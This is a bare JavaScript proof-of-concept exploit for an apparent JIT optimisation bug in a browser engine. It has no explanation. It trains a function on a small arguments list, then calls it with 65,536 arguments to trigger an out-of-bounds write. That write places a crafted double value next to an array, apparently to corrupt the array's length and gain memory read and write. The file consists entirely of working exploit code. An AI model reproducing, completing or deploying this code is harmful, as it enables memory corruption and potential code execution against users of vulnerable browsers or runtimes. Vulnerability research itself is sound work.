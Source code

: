 
function opt(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a2 = new Array(2); a2[0] = 1.1; a2[1] = 1.1;
  a1[(x >> 16) * 0xf00000] = 1.39064994160909e-309; 
}

var a1, a2;

let small = [1.1];
let large = [1.1,1.1];
large.length = 65536;
large.fill(1.1);

for (let j = 0; j< 100000; j++) {
    opt.apply(null, small);
}

opt.apply(null, large);
